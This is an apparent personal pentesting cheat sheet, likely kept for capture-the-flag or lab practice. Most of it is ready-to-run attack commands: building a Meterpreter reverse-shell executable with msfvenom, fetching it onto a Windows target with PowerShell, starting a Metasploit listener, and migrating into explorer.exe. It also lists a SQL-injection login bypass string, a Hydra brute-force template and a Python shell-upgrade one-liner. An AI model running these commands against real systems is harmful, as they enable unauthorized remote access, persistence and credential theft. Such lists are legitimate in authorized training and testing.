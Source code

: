 

sql map

---

hashes.com

cyberchef.io





msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.245.232 LPORT=6667 -f exe -o shell.exe

powershell -c "Invoke-WebRequest -Uri 'http://10.10.245.232:8000/shell.exe' -OutFile 'c:\temp\shell.exe'"

msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.248.10; set lport 6666;set payload windows/meterpreter/reverse_tcp; exploit"

migrate -N explorer.exe

' or 1=1 -- -

hydra -l <username> -P <password_list> <target_ip> http-post-form "<url>:<post_data>:<failure_string>"

python -c “import pty; pty.spawn(‘/bin/bash’)”


https://www.alexandroslekkas.com/
